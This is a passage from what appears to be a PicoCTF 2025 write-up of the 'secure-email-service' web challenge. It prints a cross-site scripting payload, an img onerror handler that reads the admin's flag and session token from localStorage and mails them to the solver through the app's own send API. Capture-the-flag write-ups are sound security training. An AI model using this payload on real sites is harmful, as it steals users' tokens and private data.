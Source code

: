 Now the fun part. After spending so much time on this challenge, we wanted to end it with some style points. Rather than the standard webhook, the script sends an email that contains the flag from the admin, back to the user.

```html
<img src=x onerror="fetch('/api/send', {method: 'POST',body: JSON.stringify({ to: 'user@ses', body: localStorage.getItem('flag'), subject: localStorage.getItem('flag') }),headers: {'Content-Type':'application/json','token': localStorage.getItem('token')}})">
```
Putting everything together, we get the flag! The final script is at [solve.ipynb](https://github.com/alexlu07/PicoCTF-2025-Writeups/blob/main/Web%20Exploitation/secure-email-service/solve.ipynb).